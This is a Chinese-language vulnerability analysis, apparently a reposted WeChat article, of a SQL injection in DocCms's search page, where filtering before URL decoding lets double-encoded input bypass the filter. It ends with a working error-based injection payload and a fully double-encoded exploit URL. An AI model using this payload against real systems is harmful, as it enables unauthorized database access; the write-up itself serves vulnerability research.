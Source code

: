 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Ty3ORj4Gvs7Zmho63BCfvQ)

一、Cms 初识：

DocCms 用户操作界面清爽友好、后台使用简单便捷、模板模块儿开发制作快速灵活 三大优点！同时秉承永久免费开源的方针，继续为广大用户造福。

- 目录结构：

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWE0XahmMdQFFpqTU8RPFQEsZ2vJVC2wkEpj3jHRx3c5yLwbPRPn9BexA/640?wx_fmt=png)

二、漏洞描述：

搜索页面由于程序对传参过滤不全，导致 SQL 关键字可以用双重 url 编码绕过，从而造成 SQL 注入。

三、漏洞分析过程：

定位到漏洞点：/search/index.php 中的 get_search_result() 函数：

首先接收到的传参会经过 checkSqlStr() 函数进行处理，然后再 url 解码：

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWE37P3iaNV7qHp6kwvBEial22buN1oqzHOdU7qWxnmOr1KZGBPic7bOOrpQ/640?wx_fmt=png)

跟进 checkSqlStr() 函数：/inc/function.php

使用正则表达式匹配一些常见的 SQL 注入敏感字符，匹配到会返回 true，否则会返回 false，这里接收参数时，并没有第一时间去 url 解码，而是处理完之后才进行的解码，所以绕过方法就很简单了，双重 url 编码即可，编码后的内容正则就匹配不到了，所以就能绕过检测：

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWEUJ8L2xFayzveN0T5xkfxeFYMzhgyHg57c6XySb5pucOl3gaC4uT7Jw/640?wx_fmt=png)

然后直接将 $keyword 拼接到 SQL 语句中，交给 get_results() 方法执行

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWEnrQFSUiajNMQDQ6W9FJ6q4HjEnNOJ40ibcC4bXia4lBx9YBuQ6hvwUtDw/640?wx_fmt=png)

跟进 get_results() 方法：/inc/class.database.php

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWE2BTiaekxDqNGXqsQcmHPdoYjN0TRLMvUic00ennulicKia842b1nc0m7yQ/640?wx_fmt=png)

继续跟进 query() 方法：

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWEaMjbtO5M76LhbmvEGVg6edLv3Dk7WPxhAjjYz9A3ZVBkFviaqmTFFcg/640?wx_fmt=png)

执行错误会调用 print_error() 方法进行处理：

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWEbL5VSHwtTO7Y4X1dZmCJc0hpxCGXnKT8K9ACqZHl20XV3FPhhNu7uA/640?wx_fmt=png)

执行出错会输出报错信息，所以就可以使用报错注入进行利用了。

四、漏洞利用：

访问漏洞 url：

```
http://www.doccms.test/search/index.php?keyword=1
```

在 keyword 处构造 payload：

```
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

进行两次的 url 编码：  

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWE4ncR8aR0ORaBOYicHRiaEb4MKBLJHWG6X2PZcBpX0edd1dibmib86LDW7w/640?wx_fmt=png)

最终 payload：

```
http://www.doccms.test/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5SvG3miciaZhtRkhu3R0iapWEyh4E3OFMQU77RicOH9fqap9vVcZaeZwerfmUcj1oTuicIpLKxTOyKxqA/640?wx_fmt=png)